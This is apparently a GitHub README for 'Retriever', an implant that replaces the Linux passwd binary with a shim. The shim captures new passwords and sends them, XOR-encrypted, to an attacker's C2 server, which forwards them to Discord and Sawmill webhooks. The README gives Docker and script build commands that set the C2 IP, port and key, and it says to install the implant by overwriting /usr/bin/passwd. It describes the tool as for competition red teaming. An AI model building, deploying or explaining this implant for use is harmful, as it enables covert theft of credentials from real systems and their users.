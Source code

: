 # Retriever passwd Shim

#### What is this?
This is a basic Linux binary shim method on the `passwd` binary from the shadow package. This will grab new passwords while they are being changed using the binary and send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04+ <br />Centos - 8 <br />Debian - 9+ <br />Arch - Latest  

#### What is this intended for 
This is intended for red teaming in a competition environment.<br><br>

# Build Instructions

## Docker 
Provied in the repository are many Dockerfiles that will build a binary for the operating system you are going to deploy this tool on. If you would like to deploy on a linux distribution that is not listed you can use the provided Dockerfiles as a template to build off of. 

Run the command below replacing the build arguments with the desired values and using the Dockerfile for the correct operating system. 

	docker build . -f ubuntu2204.Dockerfile -o ./out --no-cache --rm --build-arg IP="192.168.1.1" --build-arg PORT="1234" --build-arg INTERFACE="ens2" --build-arg XOR_KEY="bruh"

The binary will be placed in the `docker/out/` path. If you build more than 1 binary from the same distribution it will overwrite the binary that has the same name. 

#### Build Arguements
- **IP** : IP address credentials will be sent to
- **PORT**		 : Destination port to send credentials to  	
- **INTERFACE**  : The interface that the binary will use on the machine to send credentials
- **XOR_KEY**: The password used to encrypt the credentials 
<br><br>
## Using VM or Host
Build binaries on the same operating system that it will be deployed on to reduce risk of issues with binary running. It is highly recommended you match the version as closely as possible.
### Dependancies
The dependancies for this project are listed below. There are also prepared commands to install dependancies using different package managers and distros. 
	
	git make wget autoconf autopoint libtool xsltproc bison
#### Distro Examples
##### Ubuntu / Debian
	apt install -y git wget make autoconf autopoint libtool xsltproc bison
##### RHEL Based
	yum install -y git wget make autoconf gettext-devel libtool libxslt bison
##### Arch
	pacman -Syu --noconfirm git wget make autoconf gettext libtool libxslt patch automake gcc bison
##### Alpine
	apk add git wget make autoconf gettext-dev libtool libxslt bison gcc
### Run Build Script
Clone the Retriever repository. The most up to date version is most likely the best one. 
	
	git clone https://github.com/P4ral1ax/Retriever
Run the `generate.sh` script as a superuser. It will display the variables entered and then it will start the build process. If you would like to change the parameteres you can run the script again and it should run much faster and it WILL overwrite existing files. 
	
	./generate.sh {C2 Address} {Port} {Inferface} {XOR Password}
The generated binary will be placed in the Retriever directory with the correct permissions. If the file does not appear the build process has failed.

Parameter definitions
- **C2 Address** : IP address credentials will be sent to
- **Port**		 : Destination port to send credentials to  	
- **Interface**  : The interface that the binary will use on the machine to send credentials
- **XOR Password**: The password used to encrypt the credentials 

### Install
To install the implant it is easy as replacing the original `passwd` binary on the system with the shimmed binary. Common location for this binary is `/usr/bin/passwd` and `/bin/passwd`. <br><br>


## Using the Python C2
This tool includes a simple server to recieve the credentals beaconed by the binary. This includes XOR decryption, parsing, and forwarding to a Discord and Sawmill webhook. 

A custom server could easily be used with retriever if desired. 
#### Pip Dependancies  
	python-dotenv requests
#### .env File

The python C2 expects a .env file to provide various parameters to run correctly. The C2 will run without a .env file but it highly recommended that it is utilized. 

#### .env Values

- **WEBHOOK** 	 : Set the Discord webhook (Default : none)
- **XOR_KEY** 	 : The key used to encrypt and decrypt (Default : bingus) 
- **PORT**    	 : Set the port the program listens on (Default : 8000)
- **SAWMILLURL** : Set the Sawmill URL (Default : none)

### Running the C2

Make sure firewalls allow traffic into that port then run the python file using Python3.

	python3 recv_pass.py